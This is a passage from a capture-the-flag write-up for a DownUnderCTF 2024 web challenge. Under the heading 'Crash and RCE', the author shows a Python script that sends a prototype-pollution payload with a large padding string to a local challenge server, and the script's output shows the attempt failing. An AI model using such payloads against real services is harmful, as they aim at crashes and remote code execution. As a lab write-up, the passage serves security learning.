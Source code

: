 ![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-40.png)

**D. Crash and RCE**

Before we start thinking what to write in `index.ts`, let's look for a way to restart the server. Using simple google search, I found the [following](https://github.com/oven-sh/bun/issues/5479) article.

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-41.png)

Let's try upload with the following payload. It's not working..

```py
import requests

crash_payload = "A"*100000
body = {"data":{
"random":crash_payload,"signed.name":"jeff","signed.animalType":"emu","signed.age":12,"signed.crime":"assault","signed.description":"clotheslined someone with their neck","signed.start":"2024-03-02T10:45:01Z","signed.release":"2054-03-02T10:45:01Z",
"signed.__proto__":{"outputPrefix":"hijack\u0000"}
},"signature":"718494ab34fb37e1adeea4b4c87de8feb9aa504310d8c67af693928d6377af13"}
r = requests.post("http://localhost:1337/convert-to-yaml",json=body)
print(r.text)
# └─$ python3 crash.py
# Payload Too Large
```
